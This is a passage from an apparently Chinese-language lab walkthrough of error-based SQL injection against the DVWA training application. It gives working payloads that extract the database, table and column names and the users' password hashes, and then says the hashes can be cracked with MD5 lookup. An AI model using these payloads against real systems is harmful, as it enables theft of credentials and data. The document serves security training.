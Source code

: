 ![image-20220501121023767](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121023767.png)

说明存在报错注入。

**爆出数据库名：**

```
1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #
```

![image-20220501121108615](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121108615.png)

**爆出表名：**

```
1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#
```

![image-20220501121155672](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121155672.png)

```
1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema='dvwa' limit 1,1)) x from information_schema.schemata group by x#
```

![image-20220501121231242](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121231242.png)

**爆出字段名：**

```
1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#
```

![image-20220501121300864](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121300864.png)

**爆出user和password：**

```
1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(user,0x3a,password) from dvwa.users limit 0,1)) x from information_schema.schemata group by x#
```

![image-20220501121343409](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501121343409.png)

使用MD5解码即可得到password。

